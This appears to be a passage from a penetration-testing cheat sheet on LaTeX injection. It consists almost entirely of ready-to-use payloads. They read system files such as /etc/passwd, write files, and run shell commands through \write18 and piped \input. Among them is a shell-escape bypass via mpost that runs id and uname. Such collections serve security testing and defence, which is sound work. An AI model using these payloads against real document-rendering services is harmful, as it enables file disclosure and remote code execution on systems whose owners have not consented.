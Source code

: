 You might need to adjust injection with wrappers as \[ or $.

```bash
\input{/etc/passwd}
\include{password} # load .tex file
\lstinputlisting{/usr/share/texmf/web2c/texmf.cnf}
\usepackage{verbatim}
\verbatiminput{/etc/passwd}
```

#### Read single lined file

```bash
\newread\file
\openin\file=/etc/issue
\read\file to\line
\text{\line}
\closein\file
```

#### Read multiple lined file

```bash
\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```

### Write file <a href="#write-file" id="write-file"></a>

```bash
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\closeout\outfile
```

### Command execution <a href="#command-execution" id="command-execution"></a>

The input of the command will be redirected to stdin, use a temp file to get it.

```bash
\immediate\write18{env > output}
\input{output}

\input{|"/bin/hostname"}
\input{|"extractbb /etc/passwd > /tmp/b.tex"}

# allowed mpost command RCE
\documentclass{article}\begin{document}
\immediate\write18{mpost -ini "-tex=bash -c (id;uname${IFS}-sm)>/tmp/pwn" "x.mp"}
\end{document}

# If mpost is not allowed there are other commands you might be able to execute
## Just get the version
\input{|"bibtex8 --version > /tmp/b.tex"}
## Search the file pdfetex.ini
\input{|"kpsewhich pdfetex.ini > /tmp/b.tex"}
## Get env var value
\input{|"kpsewhich -expand-var=$HOSTNAME > /tmp/b.tex"}
## Get the value of shell_escape_commands without needing to read pdfetex.ini
\input{|"kpsewhich --var-value=shell_escape_commands > /tmp/b.tex"}
```